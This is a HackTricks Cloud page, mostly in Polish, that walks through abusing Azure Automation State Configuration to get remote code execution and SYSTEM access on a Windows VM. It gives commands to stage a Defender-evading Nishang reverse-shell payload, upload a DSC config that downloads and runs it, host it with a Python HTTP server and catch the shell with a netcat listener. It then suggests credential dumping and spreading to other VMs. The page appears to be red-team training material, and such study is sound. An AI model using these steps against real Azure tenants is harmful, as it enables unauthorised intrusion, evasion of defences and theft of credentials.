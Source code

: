 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

Proces polega na skonfigurowaniu infrastruktury serwera zdalnego do hostowania zmodyfikowanego ładunku Nishang `Invoke-PowerShellTcp.ps1`, nazwanego `RevPS.ps1`, zaprojektowanego w celu ominięcia Windows Defender. Ładunek jest serwowany z maszyny Kali Linux o adresie IP `40.84.7.74` przy użyciu prostego serwera HTTP w Pythonie. Operacja jest realizowana w kilku krokach:

#### Step 1 — Create Files

* **Files Required:** Potrzebne są dwa skrypty PowerShell:
1. `reverse_shell_config.ps1`: Plik Desired State Configuration (DSC), który pobiera i wykonuje ładunek. Można go uzyskać z [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1).
2. `push_reverse_shell_config.ps1`: Skrypt do publikacji konfiguracji na VM, dostępny na [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).
* **Customization:** Zmienne i parametry w tych plikach muszą być dostosowane do specyficznego środowiska użytkownika, w tym nazwy zasobów, ścieżki plików oraz identyfikatory serwera/ładunku.

#### Step 2 — Zip Configuration File

* Plik `reverse_shell_config.ps1` jest kompresowany do pliku `.zip`, co czyni go gotowym do transferu do Azure Storage Account.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Krok 3 — Ustaw kontekst przechowywania i przesyłanie

* Zszyfrowany plik konfiguracyjny jest przesyłany do zdefiniowanego kontenera przechowywania Azure, azure-pentest, za pomocą polecenia Set-AzStorageBlobContent z Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Krok 4 — Przygotowanie Kali Box

* Serwer Kali pobiera ładunek RevPS.ps1 z repozytorium GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* Skrypt jest edytowany, aby określić docelową maszynę wirtualną Windows i port dla odwrotnego powłoki.

#### Krok 5 — Publikacja pliku konfiguracyjnego

* Plik konfiguracyjny jest wykonywany, co skutkuje wdrożeniem skryptu odwrotnej powłoki w określonej lokalizacji na maszynie wirtualnej Windows.

#### Krok 6 — Hostowanie ładunku i ustawienie nasłuchu

* Uruchamiany jest Python SimpleHTTPServer, aby hostować ładunek, wraz z nasłuchiwaczem Netcat do przechwytywania przychodzących połączeń.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* Zaplanowane zadanie wykonuje ładunek, osiągając uprawnienia na poziomie SYSTEM.

#### Wnioski

Pomyślne wykonanie tego procesu otwiera liczne możliwości dalszych działań, takich jak zrzut poświadczeń lub rozszerzenie ataku na wiele maszyn wirtualnych. Przewodnik zachęca do dalszej nauki i kreatywności w dziedzinie Azure Automation DSC.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
